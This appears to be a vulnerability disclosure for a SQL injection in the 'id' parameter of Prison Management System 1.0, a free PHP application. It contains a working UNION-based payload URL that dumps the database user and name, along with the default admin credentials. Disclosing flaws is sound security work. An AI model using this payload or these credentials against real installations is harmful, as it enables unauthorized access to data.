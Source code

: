 # Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the "Inmates/view_inmate" id parameter, resulting in the generation of SQL injection.

#### Payload used:
http://localhost/pms/admin/?page=inmates/view_inmate&id=1%27%20and%201=2%20union%20select%201,user(),3,4,5,6,7,8,9,0,database(),2,3,4,5,6,7,8,9,0,1,2,3,4--+

#### Proof of Concept

1. Login the CMS. 
    Admin Default Access:
    username:admin
    Password: admin123

2. Open Page http://localhost/pms/admin/?page=inmatesand click View button
![image-20220607095010559](./img/PrisonManagementSystem(XSS).assets/image-20220607095010559.png)
![image-20220606142934357](../img/PrisonManagementSystem(SQLI).assets/image-20220606142934357.png)

![image-20220606142955008](../img/PrisonManagementSystem(SQLI).assets/image-20220606142955008.png)

   

3. Put SQL payload   in the browser;


4. Viewing the dbuser and database name in page;

![image-20220606143008496](./img/Prison Management System(SQLI).assets/image-20220606143008496.png)

